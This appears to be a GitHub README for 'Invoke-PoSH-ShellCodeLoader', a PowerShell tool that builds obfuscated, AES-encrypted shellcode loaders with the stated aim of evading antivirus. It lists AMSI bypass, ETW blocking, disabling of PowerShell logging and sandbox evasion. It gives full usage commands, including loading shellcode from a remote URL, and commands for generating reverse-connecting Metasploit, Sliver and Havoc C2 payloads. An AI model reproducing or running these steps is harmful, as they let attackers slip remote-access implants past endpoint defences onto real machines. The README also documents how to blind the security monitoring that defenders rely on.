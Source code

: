 ### Invoke-PoSH-ShellCodeLoader v2.0
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader PowerShell script that will inject the shellcode into the current process's virtual address space.  

#### FEATURES
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  - Compatible with shellcodes from multiple C2 frameworks (Metasploit, Silver and Havoc)

#### USAGE
1. Examples with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
```

2. Examples with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
```
3. Examples with the optional parameter '-Sandbox'
```
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 -Sandbox
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1  -Sandbox
```

#### INPUT (Shellcode formats)  
- Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o shellcode```  
  
- Sliver C2 Framework  
  ```[server] sliver > generate --arch amd64 -f shellcode --http IP -l --os Windows --save shellcode```  
  ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
  ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### LICENSE
  - GNU General Public License v3.0
